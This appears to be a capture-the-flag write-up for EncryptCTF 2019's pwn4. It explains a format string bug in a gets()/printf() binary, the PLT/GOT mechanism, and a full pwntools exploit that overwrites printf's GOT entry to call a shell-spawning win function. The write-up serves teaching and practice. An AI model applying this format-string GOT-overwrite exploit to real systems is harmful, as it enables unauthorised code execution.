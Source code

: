 ```yaml
---
layout: post
title: "[EncryptCTF 2019] pwn4 (300)"
author: EverTokki
---
```

### Program Source + Explanation
```c
int _() {
  return system("/bin/bash");
}

int __cdecl main(int argc, const char **argv, const char **envp) {

  char s; // [esp+1Ch] [ebp-84h]
  unsigned int v5; // [esp+9Ch] [ebp-4h]

  v5 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  puts("Do you swear to use this shell with responsility by the old gods and the new?\n");
  gets(&s);
  printf(&s);
  printf("\ni don't belive you!\n%s\n", &s);

  return 0;
}
```

There is a function specifically made to call `system("/bin/sh")` (usually called the "win" function) - this makes things easier, because we don't have to think about passing arguments and grabbing `"/bin/sh"` from memory, etc. We note that the main function receives through `gets()` and then proceeds to use `printf()` twice.

```sh
EverTokki@shell:~/TEMP$ ./pwn4
Do you swear to use this shell with responsility by the old gods and the new?

AAAA.%x.%x.%x.%x.%x.%x.%x.
AAAA.0.2.0.fff8e75e.1.c2.41414141.
i don't belive you!
AAAA.%x.%x.%x.%x.%x.%x.%x.
```
As you may know, `printf(&s)` is prone to a [format string bug](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf). You can use this bug to either leak elements off the stack(`%d`, `%x`, `%p`, `%s`), or to write to addresses(`%n`). We can see that the seventh element in the leak is 0x41414141, also known as "AAAA". It's printing out the stack elements - the first 6 elements, if I recall correctly, are register values.
What does this mean? - We can store addresses in the stack so that our format string bug will write to those addresses.

---

### Simple GOT overwrite using format string bug
I recommend reading more about GOT and PLT if this post alone doesn't make sense.
- [GOT and PLT for pwning](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
- [Introduction to format string exploits](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
- [Format String Exploit (OverWrite GOT)](https://nuc13us.wordpress.com/2015/09/04/format-string-exploit-overwrite-got/)
- [Bypassing ASLR via Format String Bug](https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920)

Basically, here's a rundown of PLT and GOT:
- When you call a function, it jumps to PLT.
- PLT contains a jump to the GOT.
- GOT is a table of jumps.
- After you jump from GOT, you can finally get the "real" address of the function (which gets affected by ASLR).

GOT is empty when you first look at the binary file but once you run your program and your library is loaded, the addresses will be dynamically linked to the procedure so that the jump from GOT will land at the function at LIBC.

So, we want to:
- Input a string into `gets()` that utilizes the format string bug.
- Once `printf(&s)` is called, this will overwrite the GOT of `printf()`. We want to overwrite this with the address of `win()`.
- When `printf()` is called again, it will call `win()` instead.

Some tips in general:
- It's easier (to understand your own payload + calculate offsets) if you put all the necessary addresses that you want to overwrite at, at the very beginning of your payload.
- If you have a negative offset that you have to write, (e.g. you want to write 0x0804 but you already have outputted 0x8230 characters) you can use 0x10804 instead, with `%hn` in order to only write the last two bytes.
- PLT is read-only, hence we overwrite GOT instead.

---

### Gathering addresses

```sh
EverTokki@shell:~/TEMP$ gdb -q pwn4
Reading symbols from pwn4...(no debugging symbols found)...done.
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x8048400 <system@plt>
gdb-peda$ p printf
$2 = {<text variable, no debug info>} 0x80483c0 <printf@plt>
gdb-peda$ x/xi 0x80483c0
   0x80483c0 <printf@plt>:	jmp    DWORD PTR ds:0x80498fc
```
- system@PLT: `0x8048400`
- printf@GOT: `0x80498fc`

---

### Exploit
```python
#!/usr/bin/env python
from pwn import *

r = remote("104.154.106.182", 5678)
#r = process("./pwn4")

# buffer is 7th argument

printf_got1 = 0x080498fc
printf_got2 = 0x080498fe

system = 0x804853d

payload = ""
payload += p32(printf_got1)
payload += p32(printf_got2)

# 8 bytes written

# printf -> win
# 0x853d(34109)
payload += "%34101c%7$hn"

# 0x10804(67588)
payload += "%33479c%8$hn"

print r.recvuntil("by the old gods and the new?\n")

r.send(payload)
r.interactive()
```
